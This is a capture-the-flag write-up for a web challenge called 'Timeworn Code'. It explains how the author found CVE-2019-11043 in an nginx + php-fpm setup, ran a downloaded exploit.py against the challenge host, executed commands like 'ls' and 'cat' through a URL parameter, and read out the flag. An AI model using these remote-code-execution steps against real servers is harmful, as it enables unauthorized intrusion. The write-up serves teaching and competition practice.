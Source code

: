 # Timeworn Code Writeup

when we first visit the webpage we notice there is nothing on the screen except for the **Hello Hackers** and the hint in the bottom right saying **made with nginx + php-fpm configurations.** , so the good hackers we are we run to google asking for `nginx and php-fpm vulnerabilities` and evidently the first result we get tells us that there is a registered vulnerability `CVE-2019-11043` 
> CVE stands for Common Vulnerabilities and Exposures. CVE is a glossary that classifies vulnerabilities. The glossary analyzes vulnerabilities and then uses the Common Vulnerability Scoring System (CVSS) to evaluate the threat level of a vulnerability.

after getting our vulnerability we start searching for a **POC** (proof of concept) or an **exploit** 

after some searching i stumbled on this [github]() repo , i downloaded the exploit.py file and ran it using 
```
python3 exploit.py --target http://timeworn_code.web.securinets.tn/index.php
```
and after waiting a while i got 
```
✅ Success: Remote Code Execution exploit successfully deployed!
```
and there we go, now we have an RCE that we can exploit to get our flag \
to do this we just visit 
```
http://timeworn_code.web.securinets.tn/index.php?a=ls
```
to list all the files , among the files listed we notice `flag655616` , so we go ahead and replace `ls` with `cat flag655616` and there you have it \
your flag is : `Securinets{Forgotten_Vulnerabilities_Unleashed}`

written by : **Chuuya**